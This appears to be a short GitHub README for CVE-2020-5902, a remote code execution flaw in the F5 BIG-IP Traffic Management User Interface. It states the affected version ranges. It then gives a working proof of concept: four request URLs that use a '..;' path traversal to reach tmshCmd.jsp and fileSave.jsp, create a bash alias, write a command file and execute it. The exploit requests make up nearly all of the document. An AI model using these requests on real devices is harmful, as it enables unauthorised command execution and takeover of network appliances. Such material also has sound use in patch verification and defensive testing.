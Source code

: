 # CVE-2020-5902/F5 RCE&ReadFile

# Summary
In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages. 

# Proof of concept

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+fakebash+list+command+bash
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/bashcmd&content=ls
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/bashcmd(Try a few more times)
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+fakebash+list
```


